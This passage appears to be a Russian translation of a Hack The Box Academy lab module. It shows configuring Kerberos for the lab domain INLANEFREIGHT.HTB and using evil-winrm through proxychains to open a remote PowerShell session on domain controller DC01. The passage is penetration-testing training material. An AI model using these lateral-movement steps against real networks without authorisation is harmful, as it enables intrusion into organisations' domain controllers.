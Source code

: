 Серверы Kerberos могут быть пустыми.

#### Административный сервер для вашей области Kerberos

![текст](https://academy.hackthebox.com/storage/modules/147/kerberos-server-dc01.jpg)

В случае, если пакет `krb5-user`уже установлен, нам нужно изменить файл конфигурации `/etc/krb5.conf`включить следующие значения:

#### Файл конфигурации Kerberos для INLANEFREIGHT.HTB

Файл конфигурации Kerberos для INLANEFREIGHT.HTB

```shell-session
lizergindoma@htb[/htb]$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```

Теперь мы можем использовать evil-winrm.

#### Использование Evil-WinRM с Kerberos

Использование Evil-WinRM с Kerberos

```shell-session
lizergindoma@htb[/htb]$ proxychains evil-winrm -i dc01 -r inlanefreight.htb

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14

Evil-WinRM shell v3.3

Warning: Remote path completions are disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:5985  ...  OK
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```

---
